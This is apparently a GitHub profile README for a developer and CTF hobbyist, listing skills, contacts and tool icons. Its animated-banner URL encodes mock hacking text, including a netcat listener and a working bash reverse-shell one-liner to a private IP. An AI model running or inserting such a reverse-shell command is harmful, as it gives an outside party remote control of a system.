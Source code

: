 <h1>Hi I'm <i><a href="https://github.com/Xolboyev-1" rel="nofollow"><b>Xolboyev</b></i></a>, And I'm...</h1>

<img align="right" width="330" src="https://media.giphy.com/media/v1.Y2lkPWVjZjA1ZTQ3bDFoeTM2ZHY0YzY1aXZyeDVqeWlqMTUyZTlweHM0d2NqcHV5Z3VjZCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/ToMjGplujsIS6kHzUPK/giphy.gif" alt="coding">

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=2700&pause=100&color=0034ff&multiline=true&width=500&height=350&lines=nc+-lvnp+4444;listening+on+%5Bany%5D+4444+...;connect+to+%5BXolboyev%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.44.38%2F4444+0%3E%261;Xolboyev%40profile%3A~%24+.%2Fexploit.py;+;...................PwN3d!......................................;Hello+Stranger!+Xolboyev+is+serving+here...;...............................................................;++;%24+whoami;Xolboyev" alt="Typing SVG" /></a>

<p align="left">
  <img src="https://komarev.com/ghpvc/?username=xolboyev-1&label=Profile%20views&color=0e75b6&style=flat" alt="xolboyev" />
    &nbsp;
  <img src="https://badges.frapsoft.com/os/v1/open-source.svg?v=102" alt="Open Source Love"" />
</p>


```javascript
const data = {
    pronouns: ["He" | "Him"],
    codename: "Xolboyev",
    status: "still alive",
    doing: "Forging Web Realms...",
    hobbies: ["{Coding}", "{CTF}", "{Speedcubing}", "{Gaming}"], // If that even matters lol
    code: ["{Python}", "{Javascript}", "{Typescript}", "{Bash}"],
    webdev: {
        frontEnd: {
            technologies: ["HTML", "CSS", "JavaScript", "Bootstrap", "React JS", "Tailwind CSS"],
        },
        backEnd: {
            technologies: ["Node JS", "Express JS", "Next JS", "SQL"],
        }
    },
    contact: {
        website: "xolboyev-1.github.io/Portfolio",
        email: "xolboyev.r57mx@gmail.com",
        instagram: "@_.xolboyev_1._"
    },
};
```

<h3 align="left">Languages and Tools:</h3>
<img align="left" alt="linux" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/linux/linux-original.svg" style="padding-right:10px;" />
<img align="left" alt="arch" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/archlinux/archlinux-original.svg" style="padding-right:10px;" />
<img align="left" alt="neovim" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/neovim/neovim-original.svg" style="padding-right:10px;" />
<img align="left" alt="python" width="26px" src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" style="padding-right:10px;" />
<img align="left" alt="HTML5" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/html5/html5-original.svg" style="padding-right:10px;" />
<img align="left" alt="CSS3" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/css3/css3-original.svg" style="padding-right:10px;" />
<img align="left" alt="JavaScript" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/javascript/javascript-original.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="33px" src="https://devicon-website.vercel.app/api/tailwindcss/plain.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="26px" src="https://cdn.worldvectorlogo.com/logos/framer-motion.svg" style="padding-right:10px;" />
<img align="left" alt="React" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/react/react-original.svg" style="padding-right:10px;" />
<img align="left" alt="Node.js" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/nodejs/nodejs-original.svg" style="padding-right:10px;" />
<img align="left" alt="MongoDB" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mongodb/mongodb-original.svg" style="padding-right:10px;" />
<img align="left" alt="MySQL" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mysql/mysql-original.svg" style="padding-right:10px;" />
<img align="left" alt="Git" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/git/git-original.svg" style="padding-right:10px;" />
<img align="left" alt="GitHub" width="26px" src="https://user-images.githubusercontent.com/3369400/139447912-e0f43f33-6d9f-45f8-be46-2df5bbc91289.png" style="padding-right:10px;" />
<img align="left" alt="Terminal" width="26px" src="./img/terminal-dark.svg" />
<br>
<br>
